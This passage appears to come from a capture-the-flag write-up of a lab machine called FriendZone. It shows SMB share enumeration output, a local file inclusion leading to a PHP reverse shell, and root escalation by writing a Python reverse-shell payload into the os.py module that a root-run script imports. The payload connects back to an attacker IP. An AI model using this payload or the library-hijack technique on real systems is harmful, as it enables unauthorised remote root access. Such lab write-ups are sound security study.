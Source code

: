 ```
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\general:
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

```

And `/etc/Development` looks like the path where the local file is being included. Now we need to find a way to obtain a rce.

After searching in SecList for some PHP files, I've found some php-reverse-shell, and after trying it, it works like a charm.

So we are in and we have user.txt:
```
1ec1....
```

Once we are in it looks like there is a new open port `953` but it's all about dns so not interesting.

After searching around, we find out an interesting process being executed with pspy: `/opt/server_admin/reporter.py` 
In there only a print and an import are preset, but since the python being used is the one under `/usr/bin` we can check if we can access the `so` module being imported and add some malicious code.

Since the UID of the process launching the script is 0 (root) trying a new reverse shell by adding the following python code to the `os.py` file:
```
#!/usr/bin/python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.6",1314));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
After some waiting with a nc opened,  we manage receive the shell and voila! A simple whoami will show you that we are done:

```
root.txt
3bb45...
```
